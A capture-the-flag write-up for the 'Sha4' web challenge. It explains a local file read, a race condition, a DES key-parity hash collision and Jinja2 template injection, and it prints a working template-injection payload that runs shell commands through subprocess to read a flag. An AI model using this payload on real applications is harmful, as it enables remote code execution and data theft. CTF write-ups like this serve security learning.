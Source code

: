 # Sha4 (web, 300pts, 16 solves)

> tl;dr
> local file read, race condition, hash collision, template injection

![scr1](scr1.png)


Start off by noticing that we have a local file read via the second form:

![scr2](scr2.png)

Lets find out where the application root is: `etc/apache2/sites-enabled/000-default.conf`

```
<VirtualHost *:80>
	ServerName sha4

	WSGIDaemonProcess sha4 user=www-data group=www-data threads=8 request-timeout=10
	WSGIScriptAlias / /var/www/sha4/sha4.wsgi

	
    <directory /var/www/sha4>
		WSGIProcessGroup sha4
		WSGIApplicationGroup %{GLOBAL}
		WSGIScriptReloading On
		Order deny,allow
		Allow from all
	</directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined


</VirtualHost>
```

Great!


[file:////var/www/sha4/server.py](server.py)

[file:////var/www/sha4/sha4.py](sha4.py)



``` python
  out_text = str(decode(ber))
  open(f, "w").write(out_text)

  if is_unsafe(out_text):
    return render_template_string(unsafe)

  commentt = comment % open(f).read()
  return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
```

Is vulnerable to race condition and template injection.
We can first send a valid input that passes the `is_unsafe` check and then a malicious input that injects the template.
The contents of the file will be overwritten for the first execution so it will actually evaluate the malicious payload.

But in order to do that we need 2 different inputs that produce the same `hash`:

``` python
def hash(x):
  h0 = "SHA4_IS_"
  h1 = "DA_BEST!"
  keys = unpad(x)
  for key in keys:
    h0 = DES.new(key).encrypt(h0)
    h1 = DES.new(key).encrypt(h1)
  return h0+h1
```


`unpad` function works as expected, it takes 7 8-bit bytes and output 8 7-bit bytes, pic rel:

![scr3](scr3.png)

DES.encrypt was the problem. 
DES, although takes 8 bytes as key, is not using all 64 bits, but only 56.
It ignores lsb of each byte.
This means we can actually get identical encryption results as long as the key differs only on lsb.
So we could perform bitflips to bypass the whitelist with one of the payloads, while the other payload with malicious injection would have the same hash.


After generating a valid input pair we simply smash them agains the server and hope to get the flag via usual template injection:

```python
{{3*3*3*3}}
{% set loadedClasses = " ".__class__.__mro__[2].__subclasses__() %}
{% for loadedClass in loadedClasses %} {% if loadedClass.__name__ == "catch_warnings".strip() %}
	{% set builtinsReference = loadedClass()._module.__builtins__ %}
	{% set os = builtinsReference["__import__".strip()]("subprocess".strip()) %}
		{{ os.check_output("cat sha4/flag_bilaabluagbiluariglublaireugrpoop".strip(), shell=True) }}
	{% endif %}
{% endfor %}
```

[full script](script.py)

Which gives `PCTF{th3 security aspect of cyber is very very tough}`
